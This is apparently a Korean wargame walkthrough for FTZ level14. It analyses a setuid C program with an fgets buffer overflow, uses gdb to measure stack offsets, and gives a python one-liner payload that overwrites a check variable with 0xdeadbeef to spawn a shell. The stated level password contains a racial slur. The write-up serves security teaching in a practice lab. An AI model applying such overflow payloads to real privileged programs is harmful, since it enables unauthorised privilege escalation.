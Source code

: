 # FTZ Level14

#### ID : level14 PW: what that nigga want?
<br>

**먼저 ```ls -l```을 이용해 어떤 파일이 있는지 살펴보자**<br> 
attackme 프로그램에 level14의 권한으로 setuid가 걸려있는 것을 확인할 수 있다.<br><br>
우선 hint의 내용을 보자<br>
```cat hint```<br>
```c
#include <stdio.h>
#include <unistd.h>

main()
{
      int crap;
      int check;
      char buf[20];
      fgets(buf, 45, stdin);      #buf 변수에 45바이트만큼 입력받음
      if (check==0xdeadbeef)
      {
          setreuid(3095, 3095);
          system("/bin/sh");      #/bin/sh 쉘 실행
      }
}
```
```fgets``` 함수에서 BOF가 일어날 수 있다!!<br>
그런데 fgets는 45byte만큼만 받고 있으며 check가 0xdeadbeef일 때 쉘을 얻을 수 있다.<br>
45byte만 가지고 공격에 성공할 수 있을까?<br>

우리의 목적을 생각해보자.<br>
1. buf[20]에서 check까지, check에서 ret까지 거리 구하기
2. check에 0xdeadbeef 넣기
3. 페이로드 작성하고 공격!

**attackme 코드를 디버깅해야하기 때문에 tmp폴더로 복사하자.**<br>
```cp attackme tmp```<br><br>
**그리고 디버깅을 해보자**<br>
```gdb -q attackme```<br>
```disas main```<br>

<main+3>을 보면 0x38만큼의 공간을 만들고 있다. 0x38은 10진수로 56이다.<br>
crap 변수 4bytes, check 변수 4byte, buf 20byte 총 28byte가 필요한데 56byte를 할당했다는 것은 dummy로 28byte가 있다고 생각할 수 있다.<br>
dummy가 어디에 위치해 있는지 찾아봐야겠다.<br>
<main+29>를 보면 0xdeadbeef랑 0xfffffff0를 비교하고 있다.<br>
저 **0xfffffff0**이 바로 check의 주소인 것이다. 이는 ebp로부터 -16에 위치하고 있다.<br>
buf는 ebp로부터 -56에 위치하고있고 check는 -16에 위치하고 있으니<br>
buf에서 check까지의 거리는 **40**이다. *(45byte만으로 공격할 수 있다!)*<br>

현재 상태를 나타내보면 다음과 같다.<br>
**buf(20)+dummy(20)+check(4)+crap(4)+dummy(8)+sfp(4)+ret(4)**<br>

그렇다면 우리가 작성할 페이로드는 다음과 같다고 할 수 있다.<br>
**"A"*(buf~check까지 거리)+0xdeadbeef**<br>

**이제 페이로드를 작성해보자.**<br>
```(python -c 'print "A"*40+"\xef\xbe\xad\xde"';cat)|./attackme```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
```cd ..``` 다시 원래 디렉토리로 되돌아가서<br>
**공격 실시!**<br>
```(python -c 'print "A"*40+"\xef\xbe\xad\xde"';cat)|./attackme```<br>
```my-pass```로 비밀번호를 물어보면<br>
Level15 Password is "~~". 라고 나올 것이다!!
